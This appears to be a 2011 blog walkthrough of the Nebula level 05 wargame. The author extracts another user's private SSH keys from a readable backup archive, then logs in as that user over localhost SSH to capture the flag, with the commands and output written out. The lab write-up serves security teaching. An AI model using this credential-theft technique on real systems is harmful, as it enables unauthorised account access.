 ```yaml
---
title: "Exploit Exercises - Nebula 05"
date: "2011-12-06T05:24:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-nebula-05.html"
---
```


So going forward to the [Nebula 05](http://exploit-exercises.com/nebula/level05), we now have to find some sort of weak permissions somewhere to escalate from level05 to flag05.  In searching through the flag05 home directory, I saw a ".backup" folder containing a copy of the user's old ssh keys. I extracted the archive to the level05 user's directory, so they could be used.

<!-- more -->

```
level05@nebula:/home/flag05$ cd .backup
level05@nebula:/home/flag05/.backup$ tar -xzvf backup-19072011.tgz -C /home/level05
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

Once that was setup, I simply tried to SSH back to the local machine but using the flag05 user, since I had their authentication keys.  Luckily it was secured *only* with keys, and not a password as well.  This let me right in.

```
level05@nebula:/home/flag05/.backup$ ssh flag05@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

* Documentation:  https://help.ubuntu.com/
Last login: Fri Dec  2 04:36:54 2011 from localhost
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
flag05@nebula:~$
```

After getting in, I ran the "getflag" command, in case it does store the results somewhere.
